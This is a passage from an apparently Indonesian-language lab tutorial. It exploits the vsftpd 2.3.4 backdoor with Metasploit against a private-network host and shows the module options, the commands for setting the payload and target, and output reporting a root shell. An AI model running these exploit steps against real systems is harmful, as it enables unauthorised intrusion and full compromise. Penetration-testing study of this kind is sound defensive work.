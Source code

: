       Module options (exploit/unix/ftp/vsftpd_234_backdoor):

         Name     Current Setting  Required  Description
         ----     ---------------  --------  -----------
         CHOST                     no        The local client address
         CPORT                     no        The local client port
         Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
         RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
         RPORT    21               yes       The target port (TCP)


      Exploit target:

         Id  Name
         --  ----
         0   Automatic



      View the full module info with the info, or info -d command.
      ```

   3. Setting Target:

      ```
      set PAYLOAD cmd/unix/interact
      set RHOSTS 192.168.1.48
      set RPORT 21
      set verbose true
      ```

   4. Jalankan Exploit:

      ```
      exploit
      ```

      Kalau hasil output-nya seperti ini:

      ```
      msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set PAYLOAD cmd/unix/interact
      PAYLOAD => cmd/unix/interact
      msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 192.168.1.48
      RHOSTS => 192.168.1.48
      msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RPORT 21
      RPORT => 21
      msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set verbose true
      verbose => true
      msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit 
      [*] 192.168.1.48:21 - Banner: 220 (vsFTPd 2.3.4)
      [*] 192.168.1.48:21 - USER: 331 Please specify the password.
      [+] 192.168.1.48:21 - Backdoor service has been spawned, handling...
      [+] 192.168.1.48:21 - UID: uid=0(root) gid=0(root)
      [*] Found shell.
      [*] Command shell session 5 opened (192.168.1.45:49166 -> 192.168.1.48:6200 via session 4) at 2025-05-10 05:59:37 +070
      ```
